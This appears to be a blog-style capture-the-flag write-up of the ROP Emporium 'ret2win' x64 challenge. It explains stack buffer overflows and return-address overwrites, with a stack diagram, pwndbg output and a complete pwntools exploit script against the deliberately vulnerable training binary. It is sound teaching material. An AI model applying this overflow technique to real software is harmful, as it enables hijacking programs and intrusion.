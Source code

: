 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-1
title: ROP x64 Challenge 1
comments: true
date: 2022-07-13
---
```


## Challenge 1 Ret2win

This challenge introduces the concept of a buffer overflow and controlling the instruction pointer of an executable. An important thing to know is that all the computer does is look at a chunk of binary in memory and then execute what it tells the computer to do. Then it looks at the next chunk of memory and so on and so forth.

However, occasionally the code needs to jump to other parts of code in order to function correctly (think of an if statement or a loop). To do this the computer simply reads an instruction that tells it to jump to a different part of code, say 20 values up/down from where it is now. 

That works great for loops and if statements, but programmers often want to call code from many different parts of the program (think functions). So in the middle of doing A, I want the program to stop, go do B, then come back and finish A. I also want to be able to do that while doing C, D, and F. The problem for the program, is once it finishes B, where does it go back to, A, C, D or F. It has to store that information somewhere and it is stored on the stack, which can be considered the memory of every function. The first thing a function does is store where it should return to on the stack and the last thing a function does is tell the computer to return back to that location.

What we are going to try and do is change that value on the stack so when the program returns to that stored location it returns to where we want it to go.

We see from running the ret2win binary that it will "attempt to fit 56 bytes of user input into 32 bytes of stack buffer!" and after looking at the stack in [[pwndbg]] we are able to see the following layout:

> ./ret2win 
	ret2win by ROP Emporium
	x86_64
	For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
	What could possibly go wrong?
	You there, may I have your input please? And don't worry about null bytes, we're using read()!

All local variables are on the stack and a base pointer (which we don't have to worry about). So assuming there are no other local variables, there is 40 bytes bytes between the read and the return pointer. We can craft a payload like this:
```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | return pointer | # where we are going to return to
8 bytes | -------------- |

```
By writing in the first 32+8 bytes of garbage, we are then able to write whatever we want into the return pointer. So all we have to do is look to see what the value should be.
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
pwndbg>
```

Looking at the functions in the binary we see there is one called ret2win or return here to win which seems super promising. Piecing that all together and we get the following exploit.

```python
from pwn import *

io = process('./ret2win')


# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

new_IP = p32(0x00400756) # The ret2win pointer

payload = junk + new_bp +  new_IP

# Print the payload for debugging puropses
print("The payload is:")
print(payload)

# wait for debugger to be attached
input("Hit enter to apptempt exploit")

# read the output and send the payload
print(io.clean(0.5).decode("utf-8"))
io.send(junk+new_bp + new_IP)



# Once done debugging, read the output
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))


```

The exploit will print out the pid of the process and then wait in order to attach gdb with `gdb -p $pid` for debugging it live.

